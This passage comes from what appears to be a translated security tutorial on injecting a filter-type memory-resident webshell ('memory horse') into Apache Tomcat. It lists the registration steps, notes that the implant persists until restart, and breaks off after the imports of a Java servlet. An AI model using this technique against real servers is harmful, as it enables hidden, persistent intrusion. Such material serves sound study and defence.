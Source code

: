 ![](img/9.png)

### Dynamic Registration

According to the above analysis, dynamic injection of `filter` type memory horse requires the following steps:

- Create a malicious `filter`
- Encapsulate `filter` with `filterDef`
- Add `filterDef` to `filterDefs` and `filterConfigs`
- Create a new `filterMap` binds the URL to `filter` and adds it to `filterMaps`

​ Each time a request `createFilterChain` is requested, a filter chain will be generated dynamically based on this, and the `StandardContext` will remain until the end of the `Tomcat` life cycle, so the memory horse can stay until the `Tomcat` fails after restarting.

#### Servlet

```java
package servlet;

import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContex
t;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;
```